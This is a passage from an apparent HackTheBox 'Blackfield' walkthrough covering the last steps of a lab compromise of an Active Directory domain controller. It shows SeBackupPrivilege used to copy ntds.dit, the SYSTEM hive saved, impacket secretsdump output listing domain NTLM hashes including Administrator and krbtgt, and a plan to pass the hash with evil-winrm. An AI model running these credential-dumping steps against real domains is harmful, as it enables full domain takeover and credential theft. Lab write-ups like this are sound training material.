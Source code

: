 ```powershell
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite
reg save HKLM\SYSTEM c:\temp\system
```

last but not least use `secretdumps.py` from impacket to extract all information from ntds.dit with prompt :

`secretsdump.py -ntds ntds.dit -system system -just-dc LOCAL`

```powershell
┌─[root@unknown101]─[10.10.14.14]─[~/Desktop/hackthebox/ActiveDirectory/Blackfield]                                                                                                                                                        
└──╼ #secretsdump.py -ntds ntds.dit -system system -just-dc LOCAL                 
Impacket v0.9.23.dev1+20210421.100825.fea485d2 - Copyright 2020 SecureAuth Corporation 
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c 
[*] Reading and decrypting hashes from ntds.dit                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f4a13e41e3ae7a47a76323a4c6ef8e33:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```

like a charm!!! now we can use NTLM hash using evil-winrm as Administrator

![](/assets/img/blackfield/10.png)
